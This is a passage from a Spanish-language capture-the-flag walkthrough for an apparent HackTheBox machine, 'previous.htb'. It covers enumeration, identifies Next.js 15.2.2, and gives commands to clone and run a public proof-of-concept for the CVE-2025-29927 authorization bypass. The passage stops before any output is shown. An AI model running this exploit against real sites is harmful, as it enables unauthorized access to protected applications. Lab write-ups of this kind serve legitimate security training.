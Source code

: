 Veremos que hay varios puertos, pero nos centraremos en el puerto `80`, vemos de ante mano que nos redirige a un `dominio` llamado `previous.htb`, por lo que vamos añadirlo a nuestro archivo `hosts`.

```shell
nano /etc/hosts

#Dentro del nano
<IP>             previous.htb
```

Lo guardamos y entraremos por dicho `dominio` de esta forma:

```
URL = http://previous.htb/
```

Info:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-24 154803.png" alt=""><figcaption></figcaption></figure>

Veremos una pagina web normal, sin nada interesante, pero si bajamos abajo del todo, veremos que hay un `contacto`, que si investigamos a donde redirige, veremos lo siguiente:

```html
<a href="mailto:jeremy@previous.htb" class="text-gray-500 hover:text-gray-900">Contact</a>
```

Vemos que ya tenemos un contacto llamado `jeremy`, despues de un rato buscando me funciono un pequeño `NoSQLi`, pero nada interesante, si utilzamos una extension llamada `Wappalyzer` veremos que hay una dependencia en la pagina que se esta utilizando con una version en concreto.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-24 164204.png" alt=""><figcaption></figcaption></figure>

Vemos que hay un `Next.js` con la version `15.2.2`, si buscamos vulnerabilidades de dicha version, veremos que si la hay en concreto con el `CVE-2025-29927 (Next.js) - Authorization Bypass` por lo que vemos se puede realizar un `bypass` del `login` con esta vulnerabilidad.

Investigando un poco encontramos este repositorio donde podemos obtener informacion de como aprovecharla.

URL = [CVE-2025-29927 Exploit PoC](https://github.com/UNICORDev/exploit-CVE-2025-29927/tree/main)

Vamos a preparar nuestro entorno para que funcione.

```shell
git clone https://github.com/UNICORDev/exploit-CVE-2025-29927.git
cd exploit-CVE-2025-29927/
python3 -m venv .venv
source .venv/bin/activate
pip install -r requirements.txt
```

Instalado todo, vamos a probarlo de esta forma:

```shell
python3 exploit-CVE-2025-29927.py -u 'http://previous.htb/'
```

Info:

